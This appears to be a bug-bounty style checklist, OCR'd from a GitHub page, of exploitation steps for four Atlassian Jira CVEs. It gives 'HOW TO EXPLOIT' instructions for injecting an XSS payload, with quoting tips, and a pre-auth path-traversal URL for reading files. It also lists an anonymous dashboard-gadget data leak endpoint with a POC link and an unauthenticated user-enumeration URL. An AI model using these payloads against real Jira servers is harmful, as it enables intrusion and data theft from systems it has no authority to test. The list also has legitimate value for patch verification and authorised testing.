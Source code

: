 [ ] cve-2018-5230
```
https://hackerone.com/reports/380354 
https://jira.atlassian.com/browse/JRASERVER-67289 
HOW TO EXPLOIT: https://host/issues/?filter=-8 
Go to the link above 
Click the "Updated Range:" text area 
Put your XSS payload in "More than [ ] minutes ago" (15 character payload limit) or in "In range [ ] to [ ]" (No length limit, ONLY put the payload in the first box) Click Update Payload will run.
If it doesn't run chances are you used double quotes somewhere. Only use single quotes!
```
[ ] CVE-2020-29453 (Pre-Auth Limited Arbitrary File Read)
```
http://host/s/1xqVb9EKKmXG4pzui1gHeg0yrna/_/%2e/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
if its not running redirecting to login panel then run it with curl
```
[ ] CVE-2020-36287 (Atlassian JIRA: Incorrect Authorization)
```
Affected software: Atlassian Jira Data Center, Jira Server (also tested on Jira Project Management Software) Affected Vesrion: Before version 8.13.5, and from version 8.14.0 before version 8.15.1 CVEID: CVE-2020-36287 CVSS Score: 5.3  
(Medium) CVSS Score: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N Fully Patched Version: 8.13.5, 8.15.1, 8.16.0

Link: https://site.com/secure/Dashboard.jspa
POC: https://site.com/rest/dashboards/1.0/10000/gadget/{ID}/prefs
POC: https://github.com/f4rber/CVE-2020-36287
https://www.rapid7.com/db/vulnerabilities/atlassian-jira-cve-2020-36287/
https://jira.atlassian.com/browse/JRASERVER-72258 [Anonymously accessible Dashboards can leak private information via configured gadgets CVE-2020-36287]
```

[ ] CVE-2020-36289 (Atlassian Jira Unauth User Enumeration)
```
Vulnerable:
Jira < 8.5.13 8.6.0 ≤ Jira < 8.13.5 8.14.0 ≤ Jira < 8.15.1

Summary:
The remote web server hosts a web application that is affected by an information disclosure vulnerability.

Affected endpoint:
https://example.com/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin

Description:
The instance of Atlassian Jira hosted on the remote web server is affected by an information disclosure vulnerability in QueryComponentRendererValue!Default.jspa due to an improper access restriction. An unauthenticated, remote 
attacker can exploit this, by sending a specially crafted HTTP request, to disclose sensitive information which may aid in further attacks.

References:
https://jira.atlassian.com/browse/JRASERVER-71559
http://www.nessus.org/u?b658a05a
```
